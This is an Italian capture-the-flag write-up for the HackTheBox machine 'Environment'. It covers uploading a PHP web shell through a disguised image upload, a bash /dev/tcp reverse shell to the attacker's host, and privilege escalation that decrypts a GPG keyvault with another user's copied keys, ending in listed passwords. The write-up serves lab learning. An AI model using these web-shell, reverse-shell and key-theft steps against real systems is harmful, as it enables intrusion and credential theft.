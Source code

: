 Carico un file php contenente:

```php
GIF89a
<?php eval($_GET["cmd"]);?>
```

e aggiungo un punto alla fine del nome del file quando eseguo la risposta: shell.php.
modifico inoltre il Content-type a image/jpg


e la risposta:
```json
{
    "url":"http:\/\/environment.htb\/storage\/files\/shell.php",
    "uploaded":"http:\/\/environment.htb\/storage\/files\/shell.php"
}
```

accedo a `http://environment.htb/storage/files/shell.php?cmd=phpinfo();` per vedere se funziona (SPOILER: si)

Faccio lo stesso procedimento con:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.25/1234 0>&1'");?>
```
 
nel file e lo eseguo accedendo all'url, dopo aver aperto nc in ascolto sulla mia macchina -> **shell ottenuta**

# USER FLAG
c05297dc2a67632cbb6437efb7c47652

# PRIVESC
entro nella cartella backup e noto una chiava .gpg

seguo delle istruzioni trovate online per crackare la cosa:

```markdown
# 1. Copy the key directory of the hish user
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. Set permissions
chmod -R 700 /tmp/mygnupg

# 3. Confirm whether the private key exists
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. Decrypt keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

stampando message.txt:

> PAYPAL.COM -> Ihaves0meMon$yhere123
> ENVIRONMENT.HTB -> marineSPm@ster!!
> FACEBOOK.COM -> summerSunnyB3ACH!!

